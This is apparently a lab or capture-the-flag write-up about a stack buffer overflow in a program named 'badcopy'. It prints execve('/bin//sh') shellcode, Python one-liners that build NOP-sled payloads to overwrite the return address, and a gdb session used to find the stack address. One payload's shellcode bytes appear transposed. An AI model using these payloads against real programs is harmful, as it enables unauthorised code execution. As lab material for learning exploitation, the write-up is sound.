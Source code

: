 #### The function stack frame must contain shellcode and the address where the shellcode resides. I have found shellcode in the peda files included in user's home directory. I simply copy + pasted the shellcode into a text file on my Kali VM for future reference

```bash
less ~/peda/lib/shellcode.py
```
### Found the following:
```
"\x31\xc0"               # 0x00000000:     xor eax,eax
"\x50"                   # 0x00000002:     push eax
"\x68\x2f\x2f\x73\x68"   # 0x00000003:     push dword 0x68732f2f ; //sh
"\x68\x2f\x62\x69\x6e"   # 0x00000008:     push dword 0x6e69622f ; /bin
"\x89\xe3"               # 0x0000000D:     mov ebx,esp
"\x31\xc9"               # 0x0000000F:     xor ecx,ecx
"\x89\xca"               # 0x00000011:     mov edx,ecx
"\x6a\x0b"               # 0x00000013:     push byte +0xb
"\x58"                   # 0x00000015:     pop eax
"\xcd\x80"               # 0x00000016:     int 0x80 ; execve()

```

#### What I am trying to do is overflow the first function argument, s1, until the point where the return address resides ($ebp + 4). The address I will overwrite will be the address where shellcode lives on stack. For the purpose of eliminating inaccurate entry points, I will include a NOP sled before my shellcode such that the program 'slides' down the NOP sled and then executes the shellcode.

### I tested my hypothesis with payload inside gdb
```bash
$(python -c "print '\xaa'*88 + '\x9f\xf5\xff\xbf' + '\x90'*20 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80'") /tmp/dest.txt

$(python -c "print '\x90'*64 + '\x31\xc0\x50\x68\x2f\x73\x68\x68\x2f\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\x18\xf5\xff\xbf'") /tmp/dest.txt
```

## Findings
The address of ebp seemed to change as the size of my payload increased, however the change became constant and I could guess the correct address of ebp.

```bash
gdb badcopy

# inside gdb
b filecopy
r $(python -c "print '\xaa'*88 + '\x9f\xf5\xff\xbf' + '\x90'*20 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80'") /tmp/dest.txt
p $ebp # ebp = 0xbffff548
```
